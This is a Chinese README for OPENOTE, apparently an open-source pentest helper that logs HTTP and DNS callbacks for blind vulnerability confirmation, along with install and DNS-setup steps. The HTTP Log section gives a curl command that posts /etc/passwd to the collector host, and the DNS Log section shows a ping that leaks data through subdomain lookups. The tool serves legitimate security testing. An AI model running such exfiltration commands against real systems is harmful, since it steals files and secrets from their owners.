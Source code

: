 # OPENOTE

OPENOTE是一款渗透测试辅助工具，集成了一些渗透测试常用的功能，目前包括HTTP记录、DNS记录、文件托管、XSS平台

* HTTP Log：无回显的场景下通过记录HTTP请求确认漏洞
* DNS Log：无回显场景下通过DNS信道外带数据
* File Service：对标Paste Bin，但提供自定义Content-Type的接口，便于托管payload
* XSS平台：模块化配置XSS Payload，辅助XSS测试

## 功能演示

目前开发了两个功能，HTTP Log和DNS Log，都是需求比较大的基础能力。未来会继续开发其他功能，请star并持续关注

在以下说明中，以域名`example.com`为例

### 登陆认证

支持基本登陆认证功能，保障数据安全

![UNADJUSTEDNONRAW_thumb_150e](./assets/UNADJUSTEDNONRAW_thumb_150e.jpg)

### HTTP Log

核心功能之一是HTTP Log，所有对平台的**不存在的**路由请求均会被记录下来

以下路由地址被平台保留，不会被记录

* /
* /http
* /http/\<int\>
* /http/down/\<int\>
* /dns
* /file
* /xss
* /login
* /logout
* /delete/dns

![UNADJUSTEDNONRAW_thumb_1510](./assets/UNADJUSTEDNONRAW_thumb_1510.jpg)

在`home/data/black_list.py`中可以配置黑名单，黑名单中的url同样不会被记录。默认添加了`/favicon.ico`和`/robots.txt`

点击每一条记录，可以看到完整的HTTP Header和HTTP Body数据

![UNADJUSTEDNONRAW_thumb_1511](./assets/UNADJUSTEDNONRAW_thumb_1511-5537950.jpg)

一个小技巧是可以用`curl example.com/not_exsist -X POST -F "f=@/etc/passwd"`来发送文件到平台。二进制数据也可以被直接Down下来，默认以二进制形式存储数据，因此在下载之后不需要其他操作即可拿到完整的二进制数据

### DNS Log

此外该平台提供DNS Log功能。假设当前的域名为`dns.example.com`

本模块的功能主要是修改了[vtest](https://github.com/opensec-cn/vtest/)和[dnslog](https://github.com/BugScanTeam/DNSLog)两个项目的代码，并对Python3进行适配

![UNADJUSTEDNONRAW_thumb_150f](./assets/UNADJUSTEDNONRAW_thumb_150f.jpg)

#### 基础解析

```bash
ping secret_message.dns.example.com
```

此时在平台上能够收到`secret_message`这一信息，解析结果默认为`1.1.1.1`

#### 进阶解析

```bash
ping 123.123.123.123.dns.example.com
```

当域名前是IP地址时，会将这个地址解析为输入的IP地址`123.123.123.123`

```bash
ping 111.111.111.111.222.222.222.222.dns.example.com
```

此时会按顺序依次解析

```
111.111.111.111.222.222.222.222.dns.example.com ===> 111.111.111.111
111.111.111.111.222.222.222.222.dns.example.com ===> 222.222.222.222
111.111.111.111.222.222.222.222.dns.example.com ===> 111.111.111.111
111.111.111.111.222.222.222.222.dns.example.com ===> 222.222.222.222
...
```

## 如何安装

注意⚠️：
1. 本应用使用Django开发，在安装时推荐使用虚拟环境，避免引起Python的依赖关系紊乱
2. 本应用仅支持Python3（It's 9102 now.）

### 安装虚拟环境

安装virtualenv并创建虚拟python环境，激活
```bash
pip3 install virtualenv
virtualenv openote_env
source openote_env/bin/activate
```
激活后安装依赖库

```bash
pip3 install -r requirements.txt
```

### 初始化数据库

默认使用sqlite3作为数据库，便于携带。使用以下命令进行初始化

```bash
python3 manage.py migrate
```

### 创建用户

使用以下命令创建一个可以登陆的用户：
```bash
python3 manage.py createuser -u username -p
```
如果忘记密码，可以在命令行中重置：
```bash
python3 manage.py reset -u username -p
```

### 启动

```bash
python3 manage.py runserver 0.0.0.0:8000
```

### 设置DNS服务器

总共需要两个域名。例如我们拥有`tom.com`和`jerry.com`两个域名，最终想要的DNS服务器解析的域名是`dns.jerry.com`，我们控制的服务器IP为`1.1.1.1`

设置步骤：

1. 在`tom.com`中添加`A记录`，将`ns1.tom.com`指向`1.1.1.1`
2. 在`jerry.com`中添加`NS记录`，指定`dns.jerry.com`域名的NS服务器是`ns1.tom.com`

这样一来我们对`*.dns.jerry.com`的查询都会在`dns.jerry.com`处查询，而它指定了域名服务器`ns1.tom.com`，域名服务器的IP又是我们控制的服务器`1.1.1.1`。这样一来`*.dns.jerry.com`的查询都会走我们自己部署的DNS服务器，即可获取记录

![image-20190811235441346](./assets/image-20190811235441346.png)

设置完毕后，需要在`openote/settings.py`中设置以下内容：

```python
ROOT_DOMAIN = "dns.jerry.com"
LOCAL_IP = "1.1.1.1"
```

测试是否部署成功：

```bash
ping test.dns.jerry.com
```

如果解析结果为`1.1.1.1`（默认解析结果都是1.1.1.1），且能够在log中看到解析记录，则说明部署成功

### 启动服务

最终设置好之后，即可启动

```bash
python3 manage.py 0.0.0.0:8000
```

Enjoy

## 后续计划

1. file service
2. xss platform

如果有好的创意，或者发现bug，欢迎在issue中提交，也欢迎大家共同参与开发工作🍺